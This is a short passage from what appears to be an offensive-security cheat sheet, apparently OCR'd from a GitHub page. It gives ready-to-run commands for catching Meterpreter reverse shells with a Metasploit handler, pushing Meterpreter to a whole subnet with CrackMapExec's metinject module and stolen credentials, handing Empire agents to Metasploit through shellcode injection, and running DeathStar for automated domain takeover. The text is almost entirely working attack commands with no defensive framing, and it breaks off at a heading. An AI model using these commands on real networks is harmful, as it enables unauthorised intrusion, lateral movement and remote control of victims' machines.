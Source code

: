 First setup your handler:
```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf exploit(handler) > set LHOST 192.168.10.3
LHOST => 192.168.10.3
msf exploit(handler) > set exitonsession false
exitonsession => false
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://192.168.10.3:8443
msf exploit(handler) > [*] Starting the payload handler...
```
Then just run the metinject module and specify the LHOST and LPORT values:
```
#~ crackmapexec 192.168.10.0/24 -u username -p password -M metinject -o LHOST=192.168.1
```
# Passing shell from Empire to Meterpreter metasploit 

metasploit listner options
```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf exploit(handler) > set lhost 192.168.1.110
lhost => 192.168.1.110
msf exploit(handler) > set lport 2286
lport => 2286
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > set SessionCommunicationTimeout 0
SessionCommunicationTimeout => 0
msf exploit(handler) > exploit -j
```

Setup Empire to send the agent to Metasploit
```
use module code_execution/shellcode_inject
set Host <ip>
set Port <port>
execute
```
# DeathStar
```
# Start the Empire console and RESTful API
python empire --rest --username empireadmin --password Password123
```
Then grab, setup and run DeathStar:
```
git clone https://github.com/byt3bl33d3r/DeathStar
# Death Star is written in Python3
pip3 install -r requirements.txt
./DeathStar.py
```
# Windows cmd.exe commands
